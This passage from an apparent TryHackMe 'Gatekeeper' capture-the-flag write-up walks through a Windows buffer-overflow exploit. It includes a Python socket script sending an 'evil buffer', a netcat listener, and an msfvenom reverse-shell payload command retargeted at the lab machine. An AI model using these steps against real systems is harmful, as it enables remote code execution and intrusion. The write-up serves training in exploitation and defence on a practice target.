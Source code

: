 ```python

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```
- ![image](https://user-images.githubusercontent.com/94720207/169708756-d21de7b0-e434-4972-8ab7-86a28c0e4bb9.png)

- **You can now exploit the buffer overflow to get a reverse shell!**

    - Start a netcat listener on your Kali box using the `LPORT` you specified in the `msfvenom` command eg. `4444`
    
        - `rlwrap nc -nlvp 4444`
        
        - ![image](https://user-images.githubusercontent.com/94720207/169708775-d35349cf-2ecb-4cec-8e3b-6bff31f3c72a.png)
  
    - Restart `gatekeeper.exe` (`Immunity Debugger` not needed anymore) and run the modified `overflow_gatekeeper_step567_Final_Payload.py` script.
    
    - Que chille!!!
    
        - `python3 overflow_gatekeeper_step567_Final_Payload.py` 

        - **Your netcat listener should catch a reverse shell!**
        
            - ![image](https://user-images.githubusercontent.com/94720207/169709134-a9fbb111-dca8-44c0-b8ac-85a317417eb6.png)

---

### Attacking the real Gatekeeper Server

- This final step is very easy, we only need to point agains the `Real Gatekeeper Server` instead my bare metal Windows 10 PC.

    - To do that, we only need to change the payload from `msfvenom` with another LHOST & LPORT poining my THM-VPN (instead my local  192.168.1.100/24) 
            
        - `msfvenom -p windows/shell_reverse_tcp LHOST=10.6.123.13 LPORT=4444 EXITFUNC=thread -b "\x00\x0A" -f c` 
        
        - ![image](https://user-images.githubusercontent.com/94720207/169709512-bfebae53-e35f-4ede-b886-b5581d060016.png)
     
    - Also change the python script to pint the RHOST & RPORT of the Gatekeeper Server (THM machine)
    
    - ![image](https://user-images.githubusercontent.com/94720207/169709901-11d9ff3d-f66d-4029-a146-7de47124ea14.png)
      
        - ip = "10.10.25.92"
        - port = 31337 
